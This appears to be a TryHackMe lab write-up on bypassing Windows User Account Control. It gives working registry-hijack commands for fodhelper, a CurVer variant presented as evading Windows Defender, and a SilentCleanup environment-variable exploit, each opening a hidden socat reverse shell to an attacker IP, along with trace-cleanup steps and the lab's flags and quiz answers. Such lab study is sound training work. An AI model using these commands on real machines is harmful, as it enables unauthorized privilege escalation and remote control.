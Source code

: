 # Bypassing UAC - Medium

1. [User Account Control (UAC)](#user-account-control-uac)
2. [UAC: GUI based bypasses](#uac-gui-based-bypasses)
3. [UAC: Auto-elevating processes](#uac-auto-elevating-processes)
4. [UAC: Improving the Fodholper Exploit to Bypass Windows Defender](#uac-improving-the-fodholper-exploit-to-bypass-windows-defender)
5. [UAC: Environment Variable Expansion](#uac-environment-variable-expansion)

## User Account Control (UAC)

* UAC - Windows security feature that forces any new processes to run in the security context of a non-privileged account by default; applies to processes started by any user.

* Elevation in UAC is done to confirm that the user explicitly approves running the app in an administrative security context.

* UAC is a MIC (Mandatory Integrity Control), a mechanism that allows differentiating users, processes and resources by assigning an IL (Integrity Level) to each. Possible ILs are Low, Medium, High and System.

* UAC notification level settings:

  * Always notify
  * Notify me only when programs try to make changes to my computer - Default
  * Notify me only when programs try to make changes to my computer (do not dim my desktop)
  * Never notify

* Objective is to obtain access to a High IL command prompt without passing through UAC.

```markdown
1. What is the highest integrity level (IL) available on Windows? - System

2. What is the IL associated with an administrator's elevated token? - High

3. What is the full name of the service in charge of dealing with UAC elevation requests? - Application Information Service
```

## UAC: GUI based bypasses

* msconfig - msconfig process runs as a high IL process due to auto-elevation; wew can force msconfig to spawn a shell for us so that it runs as a high IL process.

```shell
#to get flag
C:\flags\GetFlag-msconfig.exe
```

* azman.msc - this process is also high IL due to auto-elevation; to get shell, go to Help > Help Topics > Right-Click anywhere > View Source > Spawns Notepad > File > Open > cmd.exe in C:\Windows\System32

```shell
#flag
C:\flags\GetFlag-azman.exe
```

```markdown
1. What flag is returned by running the msconfig exploit? - THM{UAC_HELLO_WORLD}

2. What flag is returned by running the azman.msc exploit? - THM{GUI_UAC_BYPASSED_AGAIN}
```

## UAC: Auto-elevating processes

* There are certain apps with certain requirements for auto-elevation with high IL.

* Fodhelper:

```shell
#according to given scenario
#we need to connect to given backdoor
#in attacker machine
nc 10.10.101.230 9999

#now through the backdoor connection
whoami
#myserver\attacker

net user attacker | find "Local Group"
#our user is part of Administrators group

whoami /groups | find "Label"
#it is running with a Medium IL

#we need to set required registry key values for reverse shell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.85.177:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f

#setup listener in attacker machine
nc -lvp 4444

#on victim machine, run fodhelper
fodhelper.exe

#get flag
C:\flags\GetFlag-fodhelper.exe

#cleaning up our tracks
reg delete HKCU\Software\Classes\ms-settings\ /f
```

```markdown
1. What flag is returned by running the fodhelper exploit? - THM{AUTOELEVATE4THEWIN}
```

## UAC: Improving the Fodholper Exploit to Bypass Windows Defender

```shell
#in victim command prompt (via backdoor)
#for modified fodhelper exploit
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.85.177:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe

#now setup listener in attacker machine
nc -lvp 4445

#in victim machine
fodhelper.exe
#this gives us reverse shell

C:\flags\GetFlag-fodhelper-curver.exe
#flag

#clean up
reg delete "HKCU\Software\Classes\.thm\" /f

reg delete "HKCU\Software\Classes\ms-settings\" /f
```

```markdown
1. What flag is returned by running the fodhelper-curver exploit? - THM{AV_UAC_BYPASS_4_ALL}
```

## UAC: Environment Variable Expansion

```shell
#disk cleanup scheduled task exploit

#setup listener
nc -lvp 4446

#now through backdoor cmd prompt
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.11.85.177:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

#this gives us reverse shell
#for flag
C:\flags\GetFlag-diskcleanup.exe

#cleanup
reg delete "HKCU\Environment" /v "windir" /f
```

```markdown
1. What flag is returned by running the DiskCleanup exploit? - THM{SCHEDULED_TASKS_AND_ENVIRONMENT_VARS}
```
